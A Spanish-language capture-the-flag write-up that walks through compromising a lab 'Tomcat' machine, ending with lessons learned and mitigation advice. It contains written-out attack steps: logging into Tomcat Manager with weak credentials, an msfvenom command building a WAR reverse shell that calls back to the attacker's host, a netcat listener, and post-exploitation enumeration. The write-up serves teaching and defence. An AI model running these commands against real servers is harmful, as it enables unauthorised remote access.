## Información General

|Campo|Valor|
|---|---|
|**Plataforma**|whoami-labs|
|**Máquina**|Tomcat|
|**Dificultad**|Fácil|
|**IP Objetivo**|172.17.0.2|
|**Autor**|elc0ket|

## Resumen del Ataque

La máquina expone una instancia de Apache Tomcat 9.0.65 (puerto 8080/tcp). Se localiza el panel **Manager App**, protegido con autenticación básica, y se identifican credenciales válidas (`tomcat:s3cr3t`) mediante contraseñas comunes/débiles asociadas a este servicio. Con acceso al Manager App se genera un archivo WAR malicioso con `msfvenom` conteniendo una reverse shell en Java, que se despliega a través del panel de administración. Al acceder a la aplicación desplegada se obtiene ejecución de comandos como el usuario `tomcat`. Tras estabilizar la shell y enumerar el sistema, no se encuentran vectores clásicos de escalada de privilegios (sin `sudo`, sin binarios SUID explotables), pero se localiza la flag directamente en el directorio de trabajo del servicio, accesible con los privilegios del propio usuario `tomcat`.

## Técnicas Usadas

- Escaneo de puertos completo con Nmap (`-p-`)
- Escaneo de versión y scripts por defecto (`-sC -sV`)
- Identificación de panel Manager App de Tomcat
- Prueba de credenciales comunes/débiles sobre el Manager App
- Generación de payload WAR con reverse shell Java (`msfvenom`)
- Despliegue de aplicación maliciosa vía Manager App
- Obtención de reverse shell vía Netcat
- Estabilización de shell (`script` + `stty`)
- Enumeración de privilegios (sudo, binarios SUID)
- Búsqueda dirigida de archivos de flag

## Desarrollo

### 1. Escaneo inicial de puertos

```shell
nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 172.17.0.2
```

Resultado:



Único puerto abierto: 8080/tcp.

### 2. Escaneo de versión y scripts

```shell
nmap -p 8080 -sC -sV -oN allports 172.17.0.2
```



Se confirma Apache Tomcat 9.0.65 sirviendo la página por defecto.

### 3. Acceso al panel web y localización del Manager App

```
http://172.17.0.2:8080/
```



Desde la página de inicio por defecto de Tomcat se accede al enlace **Manager App**, protegido con autenticación básica HTTP.



### 4. Prueba de credenciales

Se prueban combinaciones de credenciales comunes asociadas al Manager App de Tomcat, obteniendo acceso con:

```
tomcat:s3cr3t
```





### 5. Generación del payload WAR

```shell
msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=1234 -f war -o revshell.war
```

Se genera un archivo WAR con una reverse shell en Java apuntando a la IP y puerto de escucha propios.

### 6. Despliegue del WAR y obtención de shell

Con el listener en escucha:

```shell
nc -lvnp 1234
```

Se sube y despliega el archivo `revshell.war` desde el propio panel Manager App (sección de despliegue de WAR). Tras acceder a la ruta de la aplicación desplegada (`/revshell/`), se dispara la reverse shell y se recibe la conexión en el listener.





### 7. Estabilización de la shell

```shell
script /dev/null -c bash
```

```shell
# Ctrl+Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=bash
stty rows 33 columns 144
```

```shell
tomcat@tomcat:~$ whoami
```



Shell estable como usuario `tomcat`.

### 8. Enumeración de usuarios

```shell
grep bash /etc/passwd
```



### 9. Verificación de privilegios sudo

```shell
sudo -l
```



`sudo` no está disponible en el sistema.

### 10. Enumeración de binarios SUID

```shell
find / -perm -4000 -type f 2>/dev/null
```



Ningún binario SUID explotable presente; todos corresponden a utilidades estándar del sistema sin vector de escalada directo.

### 11. Búsqueda dirigida de la flag

```shell
find / -name "flag.txt" -o -name "flag" -o -name "*.flag" 2>/dev/null
```



La flag se encuentra directamente accesible dentro del directorio de trabajo del propio usuario `tomcat` (`/opt/tomcat`), sin necesidad de escalar privilegios.

### 12. Captura de la flag

```shell
cat /opt/tomcat/flag.txt
```



## Lecciones Aprendidas

- El Manager App de Tomcat es un objetivo de alto valor: con credenciales válidas permite ejecución de código directa mediante despliegue de archivos WAR.
- Las credenciales por defecto o débiles (`tomcat:s3cr3t`) siguen siendo un vector de compromiso real en servicios de administración expuestos.
- `msfvenom` facilita la generación de payloads WAR listos para desplegar sin necesidad de escribir código Java/JSP manualmente.
- No siempre es necesario escalar privilegios a nivel de sistema (root) para completar un objetivo: en este caso, la flag era accesible directamente con los privilegios del usuario de servicio comprometido (`tomcat`).
- Ante la ausencia de vectores clásicos de privesc (sudo, SUID), conviene ampliar la búsqueda a directorios de aplicación y de trabajo del servicio comprometido, donde a menudo quedan datos sensibles.

## Medidas de Mitigación

- Eliminar o restringir el acceso al Manager App de Tomcat en entornos de producción; si es necesario, limitarlo por IP mediante `RemoteAddrValve`.
- Cambiar las credenciales por defecto de `tomcat-users.xml` por contraseñas fuertes y únicas.
- Aplicar principio de mínimo privilegio a los roles definidos en `tomcat-users.xml` (evitar `manager-gui`/`manager-script` salvo necesidad estricta).
- Ejecutar el servicio Tomcat con un usuario dedicado sin privilegios adicionales, y evitar almacenar información sensible en su directorio de trabajo.
- Monitorizar despliegues de aplicaciones WAR no autorizados y alertas de acceso al endpoint `/manager`.
- Mantener Tomcat actualizado y revisar periódicamente los logs de acceso al panel de administración.